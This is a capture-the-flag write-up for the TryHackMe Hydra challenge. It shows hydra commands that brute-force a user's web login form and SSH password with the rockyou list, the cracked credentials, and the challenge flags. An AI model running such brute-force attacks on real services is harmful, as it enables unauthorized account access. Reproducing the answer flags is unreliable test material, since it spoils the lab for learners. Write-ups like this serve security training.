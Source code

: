 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 17 (the same challenge as in TryHackMe [Hydra](https://www.tryhackme.com/room/hydra))
### References
* Spring, B. (2019, December 17). Hydra. TryHackMe Blog; TryHackMe Blog. https://blog.tryhackme.com/hydra/
* DarkSec. (2020). TryHackMe Hydra Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/8fs_7bm88GY

## Use Hydra to brute force Molly's web password. What is flag 1?
* Brute force Molly's password with `hydra`:
```bash
$ hydra -l molly -P rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
[80][http-post-form] host: <MACHINE_IP>   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```
* Login to the webpage with the credentials and obtain the flag:
```html
<div class="jumbotron text-center">
	<h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
</div>
```

**Flag 1**: `THM{2673a7dd116de68e85c48ec0b1f2612e}`
## Use Hydra to brute force Molly's SSH password. What is flag 2?
* Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:
```bash
$ hydra -l molly -P rockyou.txt <MACHINE_IP> ssh
[22][ssh] host: <MACHINE_IP>   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```
* Log-in to Molly's server using her SSH credentials:
```
$  ssh molly@<MACHINE_IP>
molly@<MACHINE_IP>'s password: butterfly
molly@ip-10-10-66-163:~$ ls
flag2.txt
molly@ip-10-10-66-163:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```

**Flag 2**: `THM{c8eeb0468febbadea859baeb33b2541b}`